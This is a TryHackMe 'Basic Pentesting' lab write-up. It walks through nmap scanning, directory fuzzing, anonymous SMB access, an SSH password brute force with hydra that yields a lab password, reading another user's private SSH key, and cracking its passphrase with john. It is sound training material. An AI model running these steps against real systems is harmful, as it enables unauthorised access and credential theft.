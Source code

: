 ```yaml
---
title: TryHackMe | Basic Pentesting
author: Zeropio
date: 2022-09-24
categories: [TryHackMe, easy-room]
tags: [thm, linux]
permalink: /tryhackme/basic-pentesting
---
```


# Foothold

The nmap show:

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```

In the webserver we found a plain html:

![Untitled](/assets/img/tryhackme/rooms/basic-pentesting/Untitled.png)

We can try fuzzing:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'http://10.10.70.66/FUZZ'

	development             [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 65ms]
	server-status           [Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 82ms]
	                        [Status: 200, Size: 158, Words: 20, Lines: 11, Duration: 383ms]
```

There we can see some files talking about the smb. We can try listing it:

```console
zero@pio$ smbclient -N -L \\\\10.10.70.66\\                                                                

	        Sharename       Type      Comment
	        ---------       ----      -------
	        Anonymous       Disk      
	        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
	Reconnecting with SMB1 for workgroup listing.
	
	        Server               Comment
	        ---------            -------
	
	        Workgroup            Master
	        ---------            -------
	        WORKGROUP            BASIC2
```

We see an **Anonymous** folder. We can see it:

```console
zero@pio$ smbclient -N \\\\10.10.70.66\\Anonymous
	Try "help" to get a list of possible commands.
smb: \> ls
	  .                                   D        0  Thu Apr 19 18:31:20 2018
	  ..                                  D        0  Thu Apr 19 18:13:06 2018
	  staff.txt                           N      173  Thu Apr 19 18:29:55 2018
	
	                14318640 blocks of size 1024. 11087744 blocks available
smb: \> get staff.txt
```

Also, we can run `enum4linux` to see that info.

---

# Fingerprint

We the user now we can try bruteforcing into the ssh:

```console
zero@pio$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.70.66/ -t 4

	[22][ssh] host: 10.10.70.66   login: jan   password: armando
```

---

# Privilege Escalation

We found the other user in the system. There, we can see the `.ssh`{: .filepath} folder:

```console
jan@basic2:~$ ls -la ../kay/.ssh
	total 20
	drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
	drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
	-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
	-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
	-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

If we use the **id_rsa** we found that we need a passphrase. 

```console
zero@pio$ ssh kay@10.10.70.66 -i id_rsa
	Enter passphrase for key 'id_rsa':
```

We can use `john` for this:

```console
zero@pio$ ssh2john id_rsa > john_rsa
zero@pio$ john --wordlist=/usr/share/wordlists/rockyou.txt john_rsa
```

With it we can now log in in the system as **kay**.